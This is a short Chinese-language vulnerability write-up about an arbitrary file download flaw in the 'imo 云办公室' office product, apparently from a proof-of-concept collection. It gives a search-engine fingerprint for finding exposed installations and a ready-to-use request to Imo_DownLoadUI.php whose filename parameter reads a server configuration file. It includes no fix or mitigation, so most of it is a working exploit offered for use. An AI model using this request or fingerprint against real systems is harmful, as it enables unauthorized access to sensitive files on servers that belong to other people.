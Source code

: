# 

# imo 云办公室 Imo_DownLoadUI.php 任意文件下载漏洞

## 漏洞描述

imo 云办公室 由于 /file/Placard/upload/Imo_DownLoadUI.php 页面 filename 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

```
imo 云办公室
```

## 网络测绘

```
app="iMO-云办公室"
```

## 漏洞复现

登录页面

![image-20220524171455819](./images/202205241714963.png)

验证POC

```
/file/Placard/upload/Imo_DownLoadUI.php?cid=1&uid=1&type=1&filename=/OpenPlatform/config/kdBind.php
```

![image-20220524171627797](./images/202205241716860.png)
